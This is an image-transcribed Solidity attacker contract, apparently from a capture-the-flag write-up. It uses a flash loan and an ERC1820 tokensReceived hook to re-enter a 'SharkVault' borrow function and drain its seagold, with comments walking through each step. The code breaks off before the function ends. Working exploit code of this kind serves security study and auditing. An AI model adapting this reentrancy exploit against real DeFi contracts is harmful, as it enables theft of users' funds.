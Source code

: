 ```solidity
    IERC20 gold;
    IERC20 seagold;
    IERC3156FlashLender flashLender;
    SharkVault vault;
    bool pwned;
    ERC1820Registry registry;

		// First, we get all the utilities we will need to access during the attack
    constructor(address _flashLender, address _gold, address _seagold, address _vault, address _registry) {
      gold = IERC20(_gold);
      seagold = IERC20(_seagold);
      flashLender = IERC3156FlashLender(_flashLender);
      vault = SharkVault(_vault);
      registry = ERC1820Registry(_registry);
    }

		// The attack is in two phases:
		// - 1) State that the contract implement the interface for the tokenReceived method
		//      in the ERC1820 registry
	  // - 2) Launch the actual attack starting with the flashloan on the Flash Lender contract
    function attack() public {
      registry.setInterfaceImplementer(address(0), 0xb281fc8c12954d22544db45de3159a39272895b169a852b314f9cc762e44c53b, address(this));
      uint maxAmount = flashLender.maxFlashLoan(address(gold));
      flashLender.flashLoan(this, address(gold), maxAmount, abi.encode(0));
    }

		// Once the loan is authorized by the Flash Lender it calls this function
    // on the our flash loan attacker contract
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata 
    ) public returns (bytes32) {
			// Those are almost useless check
      require(initiator == address(this), 'Wrong initiator');
      require(token == address(gold), 'Not gold');
      require(fee == 0, 'Fee must be 0');

			// First we deposit the gold token into the vault as collateral
      require(gold.approve(address(vault), amount));
      vault.depositGold(amount);
			
			// Then we borrow some seagold
			// if everyting is fine the function to be called is tokenReceived down
			// bellow
			// The first borrow is intentionally of 0 since when we are going to 
			// depop from the stack it's going to be the last value... So we'll
			// have nothing to repay in order to leave the shark vault :)
      vault.borrow(0 ether);
			
			// This is called only once the recursion is over
			// And it correspond to the withdrawing of the collateral from the 
			// shark vault
      vault.withdrawGold(amount);
			
			// Finally we can approve the gold transfer in order to repay the initial
			// loan made to the Flash Lender !
      require(gold.approve(address(flashLender), amount));
			// And don't forget to return the expected hash:
```